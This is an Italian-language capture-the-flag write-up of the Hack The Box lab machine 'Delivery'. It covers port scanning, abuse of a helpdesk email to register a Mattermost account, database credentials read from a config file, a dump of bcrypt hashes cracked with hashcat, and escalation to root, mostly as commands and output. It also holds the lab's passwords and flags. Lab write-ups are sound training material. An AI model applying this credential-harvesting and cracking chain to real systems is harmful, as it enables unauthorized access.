

**TARGET: 10.10.10.222**

# INFORMATION GATHERING

lanciamo un primo scan con [Nmap](Note/Tool/Nmap.md) per vedere quali porte e quali servizi sono aperti e attivi.

```bash
┌──(root㉿kali)-[/home/kali/htb/delivery]
└─# nmap -sC -sV -O -p- --min-rate=5000 10.10.10.222
Starting Nmap 7.94 ( https://nmap.org ) at 2023-08-15 04:50 EDT
Nmap scan report for helpdesk.delivery.htb (10.10.10.222)
Host is up (0.047s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey:
|   2048 9c:40:fa:85:9b:01:ac:ac:0e:bc:0c:19:51:8a:ee:27 (RSA)
|   256 5a:0c:c0:3b:9b:76:55:2e:6e:c4:f4:b9:5d:76:17:09 (ECDSA)
|_  256 b7:9d:f7:48:9d:a2:f2:76:30:fd:42:d3:35:3a:80:8c (ED25519)
80/tcp   open  http    nginx 1.14.2
|_http-title: delivery
|_http-server-header: nginx/1.14.2
8065/tcp open  unknown
| fingerprint-strings:
|   GenericLines, Help, RTSPRequest, SSLSessionReq, TerminalServerCookie:
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest:
|     HTTP/1.0 200 OK
|     Accept-Ranges: bytes
|     Cache-Control: no-cache, max-age=31556926, public
|     Content-Length: 3108
|     Content-Security-Policy: frame-ancestors 'self'; script-src 'self' cdn.rudderlabs.com
|     Content-Type: text/html; charset=utf-8
|     Last-Modified: Tue, 15 Aug 2023 08:54:32 GMT
|     X-Frame-Options: SAMEORIGIN
|     X-Request-Id: 443hhnnxojfj8pudu7symjbika
|     X-Version-Id: 5.30.0.5.30.1.57fb31b889bf81d99d8af8176d4bbaaa.false
|     Date: Tue, 15 Aug 2023 08:55:25 GMT
|     <!doctype html><html lang="en"><head><meta charset="utf-8"><meta name="viewport" content="width=device-width,initial-scale=1,maximum-scale=1,user-scalable=0"><meta name="robots" content="noindex, nofollow"><meta name="referrer" content="no-referrer"><title>Mattermost</title><meta name="mobile-web-app-capable" content="yes"><meta name="application-name" content="Mattermost"><meta name="format-detection" content="telephone=no"><link re
|   HTTPOptions:
|     HTTP/1.0 405 Method Not Allowed
|     Date: Tue, 15 Aug 2023 08:55:26 GMT
|_    Content-Length: 0
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port8065-TCP:V=7.94%I=7%D=8/15%Time=64DB3C7D%P=x86_64-pc-linux-gnu%r(Ge
SF:nericLines,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20t
SF:ext/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x
SF:20Request")%r(GetRequest,DF3,"HTTP/1\.0\x20200\x20OK\r\nAccept-Ranges:\
SF:x20bytes\r\nCache-Control:\x20no-cache,\x20max-age=31556926,\x20public\
SF:r\nContent-Length:\x203108\r\nContent-Security-Policy:\x20frame-ancesto
SF:rs\x20'self';\x20script-src\x20'self'\x20cdn\.rudderlabs\.com\r\nConten
SF:t-Type:\x20text/html;\x20charset=utf-8\r\nLast-Modified:\x20Tue,\x2015\
SF:x20Aug\x202023\x2008:54:32\x20GMT\r\nX-Frame-Options:\x20SAMEORIGIN\r\n
SF:X-Request-Id:\x20443hhnnxojfj8pudu7symjbika\r\nX-Version-Id:\x205\.30\.
SF:0\.5\.30\.1\.57fb31b889bf81d99d8af8176d4bbaaa\.false\r\nDate:\x20Tue,\x
SF:2015\x20Aug\x202023\x2008:55:25\x20GMT\r\n\r\n<!doctype\x20html><html\x
SF:20lang=\"en\"><head><meta\x20charset=\"utf-8\"><meta\x20name=\"viewport
SF:\"\x20content=\"width=device-width,initial-scale=1,maximum-scale=1,user
SF:-scalable=0\"><meta\x20name=\"robots\"\x20content=\"noindex,\x20nofollo
SF:w\"><meta\x20name=\"referrer\"\x20content=\"no-referrer\"><title>Matter
SF:most</title><meta\x20name=\"mobile-web-app-capable\"\x20content=\"yes\"
SF:><meta\x20name=\"application-name\"\x20content=\"Mattermost\"><meta\x20
SF:name=\"format-detection\"\x20content=\"telephone=no\"><link\x20re")%r(H
SF:TTPOptions,5B,"HTTP/1\.0\x20405\x20Method\x20Not\x20Allowed\r\nDate:\x2
SF:0Tue,\x2015\x20Aug\x202023\x2008:55:26\x20GMT\r\nContent-Length:\x200\r
SF:\n\r\n")%r(RTSPRequest,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nConten
SF:t-Type:\x20text/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n
SF:400\x20Bad\x20Request")%r(Help,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r
SF:\nContent-Type:\x20text/plain;\x20charset=utf-8\r\nConnection:\x20close
SF:\r\n\r\n400\x20Bad\x20Request")%r(SSLSessionReq,67,"HTTP/1\.1\x20400\x2
SF:0Bad\x20Request\r\nContent-Type:\x20text/plain;\x20charset=utf-8\r\nCon
SF:nection:\x20close\r\n\r\n400\x20Bad\x20Request")%r(TerminalServerCookie
SF:,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20text/plain;
SF:\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20Request"
SF:);
Aggressive OS guesses: Linux 5.0 (97%), Linux 4.15 - 5.8 (96%), Linux 5.3 - 5.4 (95%), Linux 2.6.32 (95%), Linux 5.0 - 5.5 (95%), Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (95%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 133.99 seconds
```

Abbiamo 3 porte aperte 

- 22/tcp   open  ssh 
- 80/tcp   open  http    nginx 1.14.2
- 8065/tcp open  unknown

# ENUMERATION 

## PORT 80

Iniziamo dalla porta 80


Ci troviamo di fronte a questa pagina, se andiamo su contact us ci reindirizza a questa pagina.


Dove ci dice che:

"Per gli utenti non registrati, utilizza il nostro HelpDesk per metterti in contatto con il nostro team. Una volta ottenuto un indirizzo email @delivery.htb, potrai accedere al nostro server MatterMost."

Tornando alla home page abbiamo un link nella parola HelpDesk che ci reindirizza alla seguente pagina 


E' il sito dell'help desk, dove abbiamo la possibilità di aprite ticket, verificare lo stato di un ticket.

Proviamo ad aprirne uno 


Una volta aperto ill ticket ci da questa risposta


Notiamo una mail interessante `@delivery.htb` ne prediamo nota 

Ora verifichiamo lo stato del ticket.

Andiamo in check ticket Status e mettiamo i dati richiesti


Ci fa vedere lo stato del ticket 

Qui non possiamo fare altro per il momento. Passiamo alla porta 8065

## PORT 8065

Visitando la porta 8065 abbiamo questa pagina


Proviamo a creare un account


Ci dice di confermare l'indirizzo tramite il link inviato alla email, ma dato che è una email finta e non abbiamo accesso ad internet al l'interno del laboratori di HTB dobbiamo trovare un altra soluzione.


La nota sopra suggeriva che avevo bisogno di un indirizzo email @delivery.htb per ottenere un account.
Ho notato che quando ho creato un ticket, ha offerto la possibilità di aggiornare il ticket tramite e-mail. Posso usarlo per ricevere l'e-mail di verifica.

Creerò un ticket e ne otterrò l'indirizzo email. Quindi registrò  un account MatterMost:

Gli diamo come email quella rilasciata dal ticket aperto in precedenza


Vediamo lo stato del ticket dove è arrivata la email di conferma e seguendo il link confermiamo la email 


Una volta loggati abbiamo il nostro account MatterMoss


Nella mail troviamo quelle che sono delle credenziali SSH 

maildeliverer:Youve_G0t_Mail!

# GAINING AN INITIAL FOOTHOLD 

Ci colleghiamo con ssh con le credenziali trovate nella email 

```bash
┌──(root㉿kali)-[/home/kali]
└─# ssh maildeliverer@10.10.10.222
The authenticity of host '10.10.10.222 (10.10.10.222)' can't be established.
ED25519 key fingerprint is SHA256:AGdhHnQ749stJakbrtXVi48e6KTkaMj/+QNYMW+tyj8.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.222' (ED25519) to the list of known hosts.
maildeliverer@10.10.10.222's password:
Linux Delivery 4.19.0-13-amd64 #1 SMP Debian 4.19.160-2 (2020-11-28) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Tue Jan  5 06:09:50 2021 from 10.10.14.5
maildeliverer@Delivery:~$

```

e abbiamo la nostra flag user

```bash
maildeliverer@Delivery:~$ ls
user.txt
maildeliverer@Delivery:~$ cat user.txt
7a4e278fb94fc6e7b384807a5bd19af7
maildeliverer@Delivery:~$
```

# PRIVESC

Cercando un po in giro troviamo in file di configurazione di MatterMoss 

```bash
maildeliverer@Delivery:/opt/mattermost/config$ ls
cloud_defaults.json  config.json  README.md
maildeliverer@Delivery:/opt/mattermost/config$

```

Diamogli un occhiata

```bash
maildeliverer@Delivery:/opt/mattermost/config$ cat config.json
m
...<snip>...
   "SqlSettings": {
        "DriverName": "mysql",
        "DataSource": "mmuser:Crack_The_MM_Admin_PW@tcp(127.0.0.1:3306)/mattermost?charset=utf8mb4,utf8\u0026readTimeout=30s\u0026writeTimeout=30s",
        "DataSourceReplicas": [],
        "DataSourceSearchReplicas": [],
        "MaxIdleConns": 20,
        "ConnMaxLifetimeMilliseconds": 3600000,
        "MaxOpenConns": 300,
        "Trace": false,
        "AtRestEncryptKey": "n5uax3d4f919obtsp1pw1k5xetq1enez",
        "QueryTimeout": 30,
        "DisableDatabaseSearch": false
    },
...<snip>...
```

Sembrano esserci delle credenziali per connetterci al database con mysql

```bash
maildeliverer@Delivery:/opt/mattermost/config$ mysql -u mmuser -pCrack_The_MM_Admin_PW mattermost
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 144
Server version: 10.3.27-MariaDB-0+deb10u1 Debian 10

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [mattermost]>
```

Esploriamo un po il database 

```bash
Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [mattermost]> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mattermost         |
+--------------------+
2 rows in set (0.000 sec)

MariaDB [mattermost]> show tables;
+------------------------+
| Tables_in_mattermost   |
+------------------------+
| Audits                 |
| Bots                   |
| ChannelMemberHistory   |
| ChannelMembers         |
| Channels               |
| ClusterDiscovery       |
| CommandWebhooks        |
| Commands               |
| Compliances            |
| Emoji                  |
| FileInfo               |
| GroupChannels          |
| GroupMembers           |
| GroupTeams             |
| IncomingWebhooks       |
| Jobs                   |
| Licenses               |
| LinkMetadata           |
| OAuthAccessData        |
| OAuthApps              |
| OAuthAuthData          |
| OutgoingWebhooks       |
| PluginKeyValueStore    |
| Posts                  |
| Preferences            |
| ProductNoticeViewState |
| PublicChannels         |
| Reactions              |
| Roles                  |
| Schemes                |
| Sessions               |
| SidebarCategories      |
| SidebarChannels        |
| Status                 |
| Systems                |
| TeamMembers            |
| Teams                  |
| TermsOfService         |
| ThreadMemberships      |
| Threads                |
| Tokens                 |
| UploadSessions         |
| UserAccessTokens       |
| UserGroups             |
| UserTermsOfService     |
| Users                  |
+------------------------+
46 rows in set (0.001 sec)
```

Abbiamo la tabella Users che sembra interessante, proviamo ad estrarre informazioni da li 

```bash
MariaDB [mattermost]> select username, password from Users;
+----------------------------------+--------------------------------------------------------------+
| username                         | password                                                     |
+----------------------------------+--------------------------------------------------------------+
| xrabbit1                         | $2a$10$1Ava5JTo9wECMTMVtEWyhOc72gwuAAdst7bbPMoie5l6.jj4BcE0u |
| surveybot                        |                                                              |
| c3ecacacc7b94f909d04dbfd308a9b93 | $2a$10$u5815SIBe2Fq1FZlv9S8I.VjU3zeSPBrIEg9wvpiLaS7ImuiItEiK |
| 5b785171bfb34762a933e127630c4860 | $2a$10$3m0quqyvCE8Z/R1gFcCOWO6tEj6FtqtBn8fRAXQXmaKmg.HDGpS/G |
| xrabbit                          | $2a$10$veUHiV4nyaCru4Qo1h8hduf0sZiIu0643VrMFY4NrGbPvj/piE6DG |
| root                             | $2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v0EFJwgjjO |
| ff0a21fc6fc2488195e16ea854c963ee | $2a$10$RnJsISTLc9W3iUcUggl1KOG9vqADED24CQcQ8zvUm1Ir9pxS.Pduq |
| channelexport                    |                                                              |
| 9ecfb4be145d47fda0724f697f35ffaf | $2a$10$s.cLPSjAVgawGOJwB7vrqenPg2lrDtOECRtjwWahOzHfq1CoFyFqm |
+----------------------------------+--------------------------------------------------------------+
9 rows in set (0.000 sec)
```

Abbiamo degli Hash che sono da decifrare 

lo salviamo sulla nostra macchina 

```bash
┌──(root㉿kali)-[/home/kali/htb/delivery]
└─# cat hash
root:$2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v0EFJwgjjO
```

Sulla base dei commenti nella email di Mattermost, creerò un file con la password:

```bash
┌──(root㉿kali)-[/home/kali/htb/delivery]
└─# cat password
PleaseSubscribe!
```

Ora posso eseguire un file di regole per ottenere diverse variazioni delle password nel file (solo una in questo caso). Ce ne sono molti in /usr/share/hashcat/rules,  con quello chiamato "bast64.rulw":

```bash
┌──(root㉿kali)-[/home/kali/htb/delivery]
└─# hashcat -m 3200 hash password --user -r /usr/share/hashcat/rules/best64.rule
hashcat (v6.2.6) starting

OpenCL API (OpenCL 3.0 PoCL 3.1+debian  Linux, None+Asserts, RELOC, SPIR, LLVM 15.0.6, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
==================================================================================================================================================
* Device #1: pthread-sandybridge-Intel(R) Core(TM) i7-4750HQ CPU @ 2.00GHz, 1766/3597 MB (512 MB allocatable), 4MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 72

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 77

Optimizers applied:
* Zero-Byte
* Single-Hash
* Single-Salt

Watchdog: Temperature abort trigger set to 90c

Host memory required for this attack: 0 MB

Dictionary cache built:
* Filename..: password
* Passwords.: 1
* Bytes.....: 17
* Keyspace..: 77
* Runtime...: 0 secs

The wordlist or mask that you are using is too small.
This means that hashcat cannot use the full parallel power of your device(s).
Unless you supply more work, your cracking speed will drop.
For tips on supplying more work, see: https://hashcat.net/faq/morework

Approaching final keyspace - workload adjusted.

$2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v0EFJwgjjO:PleaseSubscribe!21

Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 3200 (bcrypt $2*$, Blowfish (Unix))
Hash.Target......: $2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v...JwgjjO
Time.Started.....: Tue Aug 15 07:21:13 2023 (3 secs)
Time.Estimated...: Tue Aug 15 07:21:16 2023 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (password)
Guess.Mod........: Rules (/usr/share/hashcat/rules/best64.rule)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:        8 H/s (1.22ms) @ Accel:4 Loops:16 Thr:1 Vec:1
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 21/77 (27.27%)
Rejected.........: 0/21 (0.00%)
Restore.Point....: 0/1 (0.00%)
Restore.Sub.#1...: Salt:0 Amplifier:20-21 Iteration:1008-1024
Candidate.Engine.: Device Generator
Candidates.#1....: PleaseSubscribe!21 -> PleaseSubscribe!21
Hardware.Mon.#1..: Util: 28%

Started: Tue Aug 15 07:20:02 2023
Stopped: Tue Aug 15 07:21:17 2023

```

Trovata!
PleaseSubscribe!21

Con su passiamo al utente root una volta inserita la password

```bash
maildeliverer@Delivery:/opt/mattermost/config$ su
Password:
root@Delivery:/opt/mattermost/config# id
uid=0(root) gid=0(root) groups=0(root)
root@Delivery:/opt/mattermost/config#
```

Ci prendiamo la nostra flag root

```bash
root@Delivery:~# cat root.txt
188df3c518fc35e90a4b6533d5c8ecce
root@Delivery:~#
```

